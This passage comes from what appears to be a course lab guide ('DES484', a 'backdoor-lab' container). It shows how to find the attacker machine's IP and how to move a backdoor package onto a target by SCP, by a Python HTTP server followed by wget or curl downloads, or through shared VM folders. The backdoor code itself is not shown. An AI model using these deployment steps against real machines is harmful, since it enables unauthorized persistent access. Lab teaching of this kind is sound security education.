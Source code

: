 **Finding the right IP:**

```bash
# On attacker machine:
# For VMs in same network:
ip addr show eth0        # Or eth1, wlan0, etc.

# For physical machines:
ifconfig                 # Look for your active interface

# For Docker:
docker inspect backdoor-lab | grep Gateway
```

### Phase 3: Deployment Methods

#### Method A: Direct Transfer (Same Network)

**Using SCP:**

```bash
# From attacker machine
scp -r DES484_Backdoor/ user@target_ip:/tmp/

# Example:
scp -r DES484_Backdoor/ alice@192.168.1.50:/tmp/
```

**Using HTTP Server:**

```bash
# On attacker:
cd ~/Desktop
python3 -m http.server 8000

# On target:
# If you have wget installed:
wget http://192.168.1.12:8000/backdoor_full.tar.gz
# If wget is not available (zsh: command not found), use curl (installed by default on macOS/Linux):
curl -O http://192.168.1.12:8000/backdoor_full.tar.gz
# Or install wget:
#  - macOS (Homebrew): brew install wget
#  - Debian/Ubuntu: sudo apt update && sudo apt install -y wget
#  - Fedora/CentOS: sudo dnf install -y wget
tar -xzf backdoor_full.tar.gz
cd DES484_Backdoor/
```

**Using USB/Shared Folder (VMs):**

```bash
# Copy to shared folder
cp -r DES484_Backdoor/ /mnt/shared/

# On target VM:
cp -r /mnt/shared/DES484_Backdoor /tmp/
```

